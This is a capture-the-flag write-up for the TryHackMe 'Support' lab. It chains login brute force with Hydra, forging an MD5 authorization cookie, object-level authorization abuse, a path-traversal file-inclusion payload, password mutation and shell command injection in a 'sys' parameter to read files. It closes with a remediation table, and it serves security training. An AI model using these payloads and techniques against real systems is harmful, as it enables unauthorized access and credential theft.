# TryHackMe - Support CTF Writeup

| Room Info | Details |
|-----------|---------|
| **Room Name** | Support |
| **Platform** | TryHackMe |
| **Difficulty** | Medium |
| **Focus Areas** | Brute Force, Broken Access Control, BOLA, LFI, Command Injection |

---

## 📌 Executive Summary

The "Support" room presented an internal support operations panel vulnerable to a chain of multiple security flaws. By combining weak authentication controls, client-side authorization bypass, IDOR exploitation, source code disclosure via LFI, and command injection, I achieved complete remote code execution and captured both flags.

---

## 🗺️ Attack Chain Overview

Brute Force Login → Forge isITUser Cookie (MD5("true")) → Access IT Admin Panel
→ BOLA on User ID → Discover specialadmin Account → LFI to Read config.php
→ Password Mutation Attack → Admin Login → Command Injection → RCE + Flags

---

## 🔍 Detailed Walkthrough

### 1. Initial Reconnaissance & Enumeration

**Browser-first approach:** Instead of jumping straight to tooling, I opened the Network tab first and noticed the `PHPSESSID` cookie was already being issued **before** any login attempt — a possible session-fixation indicator, worth tracking through the rest of the assessment.

**Directory Enumeration:**
```bash
gobuster dir -u http://<TARGET>/ \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php \
  -t 50 \
  -b 403,404 \
  -o gobuster_results.txt
```

<!-- Screenshot showing discovered endpoints: config.php, dashboard.php, api.php, /skins -->

**Key lesson:** My first pass missed the `.php` extension flag entirely and found almost nothing. Adding `-x php` revealed the real endpoints. I also initially treated `/skins` as a dead end — re-enumerating *inside* that directory revealed `red.php`, `blue.php`, `green.php`, which later explained exactly how the `?skin=` LFI parameter mapped to files.

**Critical Discovery: `/info.php` - phpinfo() Page**

This was a goldmine of information:
- No database drivers loaded → SQL Injection not viable
- `allow_url_include: Off` → RFI not possible
- `allow_url_fopen: On` → Local file access still possible
- `session.use_strict_mode: Off` → Server accepts arbitrary session IDs


<!-- Screenshot of phpinfo() showing the key configuration values -->

---

### 2. Authentication Brute Force

The login page accepted email and password via POST request directly to the root endpoint (`/`).

**Hydra Brute Force Attack:**
```bash
hydra -l help@support.thm -P /usr/share/wordlists/rockyou.txt \
  <TARGET> http-post-form \
  "/:email=^USER^&password=^PASS^:F=Invalid credentials" -t 4
```


**Credentials Found:** `help@support.thm:snoopy`



---

### 3. Broken Access Control - The isITUser Cookie

Examining browser storage revealed an interesting cookie: `isITUser`, holding what looked like an MD5 hash. I noticed on `logout.php` this cookie was explicitly deleted — a signal it mattered for authorization.

**Cookie Analysis (hypothesis-driven, not brute-forced):**
```bash
for val in "true" "false" "yes" "no" "1" "0" "admin"; do
  echo -n "$val" | md5sum
done
```


**Result:**
```
md5("false") = 68934a3e9455fa72420237eb0590232 <- default/unauthenticated value
md5("true") = b326b5062b2f0e69046810717534cb09 <- target value
```
**Exploitation:** The application set `isITUser` to `md5("false")` by default for a regular logged-in user. Forging the cookie value to `b326b5062b2f0e69046810717534cb09` (`md5("true")`) unlocked the **IT Admin Panel**.




**Vulnerability:** The application trusted a client-controlled hash with no server-side signature or validation mechanism — hashing a two-value input (`true`/`false`) provides no real security since the entire input space is trivially guessable.

---

### 4. BOLA (Broken Object Level Authorization) - User ID Enumeration

The admin panel included an API endpoint `/user/{id}` that returned user information.

**Initial Request (Own Profile - ID:3):**
```json
{"email": "help@support.thm", "2FA": false, "admin": false}
```


**BOLA Exploitation (ID:1):**
```json
{"email": "specialadmin@support.thm", "2FA": false, "admin": true}
```


**Discovery:** An administrator account `specialadmin@support.thm` with elevated privileges exists, but credentials are unknown at this point.

---

### 5. LFI - Source Code Disclosure

The dashboard had a skin selection feature using the `?skin=` parameter, which included different PHP files based on user input.

**Building a diff-based oracle first** (since `display_errors` was off, failures were silent — no visible errors to distinguish valid vs. invalid input):
```bash
curl -s "http://<TARGET>/dashboard.php?skin=red" -b "<cookies>" -o baseline.html
curl -s "http://<TARGET>/dashboard.php?skin=nonexistentxyz" -b "<cookies>" -o test.html
diff baseline.html test.html
```
A valid skin rendered an extra `<style>` block; an invalid one silently omitted it — giving a reliable pass/fail signal.

**Working LFI payload** (no `.php` extension — the app auto-appends it; exactly one `../` — `skins/` sits one level below the web root where `config.php` lives):
```bash
curl -s "http://<TARGET>/dashboard.php?skin=../config" -b "<cookies>"
```


**Disclosed Source Code:**
```php
$MASTER_PASSWORD = 'support@110';
$SITE_VER = '1.0';
$SITE_NAME = 'support_portal';
```


**Ruled out along the way:** Remote File Inclusion (blocked by `allow_url_include: Off`) and null-byte extension stripping (patched since PHP 5.3.4 — PHP 8 throws a hard error on embedded null bytes instead).

---

### 6. Password Mutation & Admin Login

The disclosed `support@110` did not work directly against `specialadmin@support.thm`, requiring mutation.

**John the Ripper Rule-Based Mutation:**
```bash
echo "support@110" > base.txt
john --wordlist=base.txt --rules:jumbo --stdout > mutated.txt
```


**Second Brute Force:**
```bash
hydra -l specialadmin@support.thm -P mutated.txt \
  <TARGET> http-post-form \
  "/:email=^USER^&password=^PASS^:F=Invalid credentials" -t 4
```


**Flag 1 Retrieved!** 🚩


---

### 7. Command Injection → RCE

As admin, a new Date/Time feature appeared in the footer, sending POST requests with a `sys` parameter.

**Initial Test:**
```
sys=date; pwd
```
**Response:** `/var/www/html` — command injection confirmed.


**Flag Retrieval:**
```
sys=date; cat /home/ubuntu/user.txt
```
**Flag 2 Captured!** 🚩 `THM{GOT_THE_FLAG001}`


---

## 🛡️ Vulnerabilities & Remediation

| # | Vulnerability | Risk | Remediation |
|---|---------------|------|-------------|
| 1 | No rate limiting on login | High | Implement account lockout, CAPTCHA, or exponential backoff |
| 2 | Client-trusted authorization cookie | Critical | Use server-side sessions only; never trust client-controlled auth tokens |
| 3 | BOLA on /user/{id} endpoint | High | Verify authenticated user's ID matches requested resource |
| 4 | LFI via ?skin= parameter | Critical | Whitelist allowed values; validate against enum of permitted files |
| 5 | Hardcoded credentials in config.php | Critical | Use environment variables or secrets management solutions |
| 6 | Command injection in sys parameter | Critical | Use allowlist of permitted commands; never pass user input to shell |

---

## 🔐 Lessons Learned

1. **Enumeration is everything** — The phpinfo() page ruled out entire attack vectors (SQLi, RFI) while confirming viable ones (LFI). Directory structure from gobuster (`/skins` + filenames inside it) directly predicted the exact LFI payload shape needed, without ever seeing source code first.
2. **Client-side security is no security** — Hashing without a server-side secret is obfuscation, not protection, especially over a tiny input space like a boolean.
3. **Chain vulnerabilities methodically** — Each individually "minor" flaw enabled the next, eventually leading to full compromise.
4. **Silent failures need their own detection method** — With error display disabled, I had to build a diff-based oracle to distinguish real signal from noise.
5. **Cookie mechanics matter** — Understanding how `curl` vs. browsers handle cookies differently (persistent cookie jar vs. none by default) saved real debugging time.

---

## 🛠️ Tools Used

- Gobuster — Directory enumeration
- Hydra — Brute force attacks
- Browser DevTools — Request/cookie manipulation
- John the Ripper — Password mutation
- curl — Manual request crafting
- md5sum — Hash verification

---

## 📊 Time Investment

"Completed over multiple sessions — this room required building several techniques (LFI depth/extension behavior, cookie hash forgery) from first principles rather than following a known pattern."

---

## 🔗 References

- [OWASP: Broken Access Control](https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control)
- [OWASP: Injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)
- [PortSwigger: IDOR](https://portswigger.net/web-security/access-control/idor)
- [HackTricks: LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

---

## 📝 Room Details

- **Room:** Support  
- **Platform:** TryHackMe
- **Status:** ✅ Complete — Both Flags Captured
